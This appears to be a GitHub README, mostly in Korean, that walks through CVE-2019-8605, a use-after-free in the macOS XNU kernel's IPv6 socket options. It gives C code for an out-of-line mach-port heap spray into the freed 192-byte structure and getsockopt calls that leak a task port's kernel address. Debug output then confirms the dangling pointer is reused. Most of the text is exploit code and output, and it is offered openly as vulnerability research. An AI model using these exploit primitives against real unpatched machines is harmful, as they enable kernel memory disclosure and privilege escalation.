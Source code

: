 # dangling_kptr_reuse (CVE-2019-8605)
## Environment
macOS 10.14.1 x86_64 ([net.siguza.hsp4.kext](https://github.com/Siguza/hsp4/tree/master) needed)

## Description and Proof-of-Concept
A brief intro to CVE-2019-8605,<br>
via the ip6_freepcbopts function, inp->in6p_outputopts is freed,<br>
but not set to NULL, leaving a dangling pointer that still points to freed memory.
```c
void in6_pcbdetach(struct inpcb *inp) {
    // ...
    if (!(so->so_flags & SOF_PCBCLEARING)) {
        struct ip_moptions *imo;
        struct ip6_moptions *im6o;

        inp->inp_vflag = 0;
        if (inp->in6p_options != NULL) {
            m_freem(inp->in6p_options);
            inp->in6p_options = NULL;   // <- correctly NULLed (GOOD)
        }
        ip6_freepcbopts(inp->in6p_outputopts);    // <- freed only, NOT NULLed (BAD)
        // release route for mapped addresses (IPv4 related resource release)
        ROUTE_RELEASE(&inp->in6p_route);
        if (inp->inp_options != NULL) {
            (void)m_free(inp->inp_options);        // <- correctly NULLed (GOOD)
            inp->inp_options = NULL;
        }
        // ...
    }
}
```
<br>
An OOL (out-of-line) message is important in XNU's IPC mechanism
<br>and has the characteristic that it can keep data allocated in kernel space until the message is received.

Using these OOL messages we can perform heap spray so that inp->in6p_outputopts points to sprayed kernel memory containing ipc_port structures.

XNU에서의 커널 할당은 존(zone)이라는 일련의 영역을 사용합니다. 이러한 존은 특정 크기나 유형의 객체만을 포함하는 힙 메모리의 구역입니다. 예를 들어, kalloc.32 존은 크기가 32바이트 이하인 객체들을 포함하며, dangling되는 구조체 ip6_pktopts의 크기는 192이기에, kalloc.192라는 존에 속합니다.
따라서 아래 함수로 힙스프레이할 때, count 매개변수는 `192/sizeof(uint64_t)` 여야 합니다.
```
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }

    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}
```

힙 스프레이가 수행되면 커널에서 내부적으로 
```c
mach_msg_overwrite_trap 
-> ipc_kmsg_copyin 
-> ipc_kmsg_copyin_body 
-> ipc_kmsg_copyin_ool_ports_descriptor 
-> ipc_object_copyin 
-> ipc_right_lookup_write 
-> ipc_entry_lookup
```
함수가 순차적으로 호출됩니다.

여기서 `ipc_entry_lookup` 함수에 의해 Task Port의 커널 모드 주소로 변환해주기 때문에 아래와 같이 192바이트의 task port들이 스프레이됩니다.

```
ipc_entry_t
ipc_entry_lookup(
 ipc_space_t space,
 mach_port_name_t name)
{
 mach_port_index_t index;
 ipc_entry_t entry;
 index = MACH_PORT_INDEX(name);
 if (index < space->is_table_size) {
 entry = &space->is_table[index];
 ...
 }
 return entry;
}
```
- 스프레이된 task port 커널 주소들
```
[0xffffff80141cf040+0x000] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x010] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x020] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x030] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x040] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x050] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x060] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x070] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x080] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x090] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0a0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0b0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
```

댕글링되는 192바이트의 커널 구조체는 아래와 같으며, 
```c
struct ip6_pktopts {
    struct mbuf         *ip6po_m;
    int                  ip6po_hlim;
    **struct in6_pktinfo  *ip6po_pktinfo;**
    struct ip6po_nhinfo  ip6po_nhinfo;
    struct ip6_hbh      *ip6po_hbh;
    struct ip6_dest     *ip6po_dest1;
    struct ip6po_rhinfo  ip6po_rhinfo;
    struct ip6_dest     *ip6po_dest2;
    **int                  ip6po_tclass;**
    **int                  ip6po_minmtu;**
    **int                  ip6po_prefer_tempaddr;**
    int                  ip6po_flags;
};
```
이제 사용자 환경에서 `ip6po_minmtu, ip6po_prefer_tempaddr` 필드를 읽어옴으로써 task port leak이 가능합니다.
```
int get_minmtu(int sock, int *minmtu) {
    socklen_t size = sizeof(*minmtu);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, minmtu, &size);
}

int get_prefertempaddr(int sock, int *prefertempaddr) {
    socklen_t size = sizeof(*prefertempaddr);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_PREFER_TEMPADDR, prefertempaddr, &size);
}
```

이렇게 dangling되는 커널 포인터를 재사용하여 leak시키는 방법에 대해 알아보았습니다.

이 레포지토리는 dangling 커널 포인터가 <b>실제로 재사용하는지</b>에 대해 알아봅니다.<br>
Siguza 개발자분의 hsp4 커널 확장을 사용하면, 별도의 취약점없이 커널 읽기/쓰기가 가능합니다.

socket 파일 디스크립터에서부터 할당된 192바이트의 ip6_pktopts 구조체 커널 주소를 가져올 수 있으며,<br>
ool ports 또한 ikmq_base, ikm_header 필드에 접근함으로써 할당된 192바이트의 mach_msg_ool_ports_descriptor_t의 address를 가져올 수 있습니다.

여기서 서로 address가 일치하면 dangling 포인터가 재사용되었다는 것을 의미합니다.






```
ret: 0x0, hsp4: 0xb03
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xffffff7f890c7000
get_kbase ret: 0, kbase: 0xffffff8008200000, kslide: 0x8000000
[*] sock_fd: 3
[*] obtained dangling_kptr from socket_fd, 0xffffff80141cf040
[*] port_kaddr: 0xffffff801a1232a0
[*] ikmq_base: 0xffffff8019b96a00
[*] DANGLING KPTR REUSED!!!!!!
=============================
[0xffffff80141cf040+0x000] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x010] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x020] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x030] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x040] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x050] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x060] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x070] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x080] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x090] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0a0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0b0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
=============================
[*] our task port: 0xffffff801b68f150
```